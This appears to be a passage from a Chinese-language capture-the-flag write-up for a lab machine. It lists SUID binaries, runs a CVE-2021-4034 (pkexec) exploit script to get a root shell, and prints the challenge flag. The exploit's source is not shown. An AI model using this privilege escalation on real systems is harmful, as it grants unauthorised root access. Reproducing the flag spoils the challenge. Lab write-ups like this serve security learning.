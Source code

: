 ```plaintext title="find / -perm -u=s -type f 2>/dev/null"
/snap/core18/1944/usr/bin/gpasswd
/snap/core18/1944/usr/bin/newgrp
/snap/core18/1944/usr/bin/passwd
/snap/core18/1944/usr/bin/sudo
/snap/core18/1944/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/1944/usr/lib/openssh/ssh-keysign
/snap/snapd/12398/usr/lib/snapd/snap-confine
/snap/snapd/12704/usr/lib/snapd/snap-confine
/usr/bin/umount
/usr/bin/mount
/usr/bin/fusermount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/at
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newgrp
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
```

在其中注意到 `/usr/bin/pkexec` 文件，尝试通过 CVE-2021-4034 利用

```shell
(remote) administrator@erlenmeyer:/home/administrator$ python3 CVE-2021-4034.py
[+] Creating shared library for exploit code.
[-] GCONV_PATH=. directory already exists, continuing.
[-] exploit directory already exists, continuing.
[+] Calling execve()
# bash
root@erlenmeyer:/home/administrator# cd /root
root@erlenmeyer:/root# ls -lh
total 15M
-rw-r----- 1 root administrator  14M Sep 13  2021 access.log
-rw-r--r-- 1 root root          9.3K Jul 20  2021 chkrootkit.txt
drwxr-xr-x 2 root root          4.0K Jul 21  2021 exploitme
-rw-r--r-- 1 root root            40 Jul 22  2021 flag.txt
drwxr-xr-x 4 root root          4.0K Jul 16  2021 snap
drwxr-xr-x 4 root root          4.0K Jul 16  2021 web
root@erlenmeyer:/root# cat flag.txt
FARADAY{__1s_pR1nTf_Tur1ng_c0mPl3t3?__}
```

```plaintext title="Flag"
FARADAY{__1s_pR1nTf_Tur1ng_c0mPl3t3?__}
```
